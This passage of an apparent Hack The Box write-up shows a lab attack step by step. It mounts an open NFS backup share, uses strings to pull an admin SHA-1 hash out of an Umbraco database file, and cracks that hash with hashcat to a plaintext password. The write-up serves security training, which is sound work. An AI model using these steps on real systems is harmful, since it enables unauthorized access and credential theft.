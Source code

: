 There is an available share that we can mount on our local machine by doing so:

{% highlight bash %}
$ showmount -e 10.10.10.180 | tee services/2049-NFS.txt
Export list for 10.10.10.180:
/site_backups (everyone)
$ mount -t nfs $TARGET:site_backups /mnt/tmp/ -nolock
$ ls /mnt/tmp
App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config
{% endhighlight %}

It looks like these files are a backup for a website.

Looking for config files in order to find sensitive information such as passwords, we can take a look at `Umbraco.sdf` (in the `App_Data` folder) which is the **Umbraco** Database for connection credentials.

{% highlight bash %}
$ strings Umbraco.sdf | grep password
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
User "admin" <admin@htb.local>192.168.195.1User "smith" <smith@htb.local>umbraco/user/password/changepassword change
User "admin" <admin@htb.local>192.168.195.1User "ssmith" <ssmith@htb.local>umbraco/user/password/changepassword change
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
passwordConfig
{% endhighlight %}

Apparently, there are two users at least: `admin` and `ssmith`. Let's investigate more:

{% highlight bash %}
$ root@kali:/mnt/tmp/App_Data# strings Umbraco.sdf | grep "admin@htb.local"                                                                                                                   
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50                                                
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f                                                
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
{% endhighlight %}

BINGO! We got a SHA-1 hash: `b8be16afba8c314ad33d812f22a04991b90e2aaa`.

Let's try to crack it using `hashcat`:

{% highlight bash %}
$ cat > hash.txt
b8be16afba8c314ad33d812f22a04991b90e2aaa
^C
$ hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt
...
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
...
{% endhighlight %}
